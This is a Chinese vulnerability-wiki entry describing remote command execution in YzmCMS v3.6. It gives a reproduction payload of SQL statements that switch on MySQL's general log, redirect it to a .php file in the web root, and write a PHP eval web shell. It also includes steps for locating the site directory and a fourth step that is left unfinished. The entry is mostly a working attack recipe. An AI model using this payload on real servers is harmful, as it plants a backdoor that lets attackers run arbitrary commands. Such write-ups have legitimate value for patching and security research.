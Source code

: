 YzmCMS v3.6 远程命令执行
========================

一、漏洞简介
------------

二、漏洞影响
------------

YzmCMS v3.6

三、复现过程
------------

Payload：

    show variables like '%general%';   #查看配置
    set global general_log = on;        #开启general log模式
    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); 
    select '<?php eval($_POST[cmd]);?>';   #写入shell

##### 1、执行sql语句，查看mysql日志配置情况

![](/Users/aresx/Documents/VulWiki/.resource/YzmCMSv3.6远程命令执行/media/rId25.png)

#### 2、根据日志文件位置或者默认站点路径来推测站点目录，可用load\_file()函数来测试，确认站点目录位置。或者通过phpinfo()等信息收集获取站点目录。

![](/Users/aresx/Documents/VulWiki/.resource/YzmCMSv3.6远程命令执行/media/rId27.png)

#### 3、分别执行下列sql语句，将脚本代码写入文件：

    set global general_log = on;         

    set global general_log_file =CONCAT("E:\\study\\WWW\\YzmCMS\\test.","php"); select '<?php eval($_POST[cmd]);?>';

![](/Users/aresx/Documents/VulWiki/.resource/YzmCMSv3.6远程命令执行/media/rId29.png)

#### 4、提交参数，执行脚本代码：

image

